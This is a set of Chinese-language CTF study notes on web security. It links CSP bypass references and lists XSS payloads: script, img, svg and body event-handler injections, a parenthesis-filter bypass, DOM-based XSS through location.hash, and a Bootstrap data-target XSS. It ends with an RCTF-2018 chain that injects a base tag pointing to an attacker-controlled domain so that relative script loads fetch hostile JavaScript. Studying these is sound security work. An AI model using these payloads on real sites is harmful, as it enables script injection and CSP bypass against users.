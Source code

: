 以上筆記很大部分取自  
[LoRexxar前端防御从入门到弃坑](https://lorexxar.cn/2017/10/25/csp-paper/)  
[CVE-2018-5175:Universal CSP strict-dynamic bypass in Firefox](https://mksben.l0.cm/2018/05/cve-2018-5175-firefox-csp-strict-dynamic-bypass.html)  
非常推薦閱讀原文  
[迅速查表CSP cheatsheet](http://dogewatch.github.io/2016/12/08/By-Pass-CSP/)


# Regular expression
js中會用正規表達式來過濾危險字符  
```js
/g -> 全局匹配
/i -> case insensitive
```
參考如下文件：  
[Documentation](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Regular_Expressions#.E9.80.9A.E8.BF.87.E5.8F.82.E6.95.B0.E8.BF.9B.E8.A1.8C.E9.AB.98.E7.BA.A7.E6.90.9C.E7.B4.A2)

# Some tricks played in CTF  
這裡整理一些攻擊手勢以及比賽中碰到的思路  
* 不同的`<tag>`做利用  
```js
// script
<script>a=prompt;a(1)</script>

// img
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">

// svg
<svg/onload=alert(1)>

// body
// 這種payload也可以繞過括號過濾
<body/onload=javascript:window.onerror=eval;throw=alert\x281\x29’;>  
```
* DOM based XSS  
```js
<script>document.getElementById("contents").innerHTML=location.hash.substring(1);</script>
// #之後的內容不會被傳送到server端
```
* bootstrap data-* 屬性  
```js
<script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
<script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>
<button data-toggle="collapse" data-target="<img src=x onerror=alert(0)>">Test</button>

// 關於這個漏洞的解釋issue中有一個評論很清楚
<button data-toggle="collapse" data-target="<?=htmlspecialchars($_GET['x']);?>">Test</button>
// 雖然有參數可控但是htmlspecialchar轉義，這本該是安全的，但是會在bootstrap環境下data-target的屬性中觸發
```
值得注意的是`data-target`本身不會造成xss漏洞，而是被帶到boostrap的環境下發揮效用的！  
[XSS in data-target attribute #20184](https://github.com/twbs/bootstrap/issues/20184)  
* Vue.js  
with SSTI  
* `<base>`覆蓋相對路徑下的js  
這是我在RCTF-2018中碰到的比賽思路，CSP沒有限制`base-uri`因此可以用`<base>`繞過，而頁面中剛好又有用相對路徑引用外部的js檔，我們便可以自己偽造一個無視CSP的js  
**Exploit**:  
:point_down: 頁面中被插入`<base href="http://controlled_domain/">`  
:point_down: 被引入的`/assets/jquery.min.js`全都變成`http://controlled_domain/assets/jquery.min.js`  
:point_down: `controlled_domain/assets/jquery.min.js`我們可以在裡面插入`location.href=url;`  
:point_down: 當我們訪問最前面被插入`<base>`的頁面時就會被導到這個`url`囉！  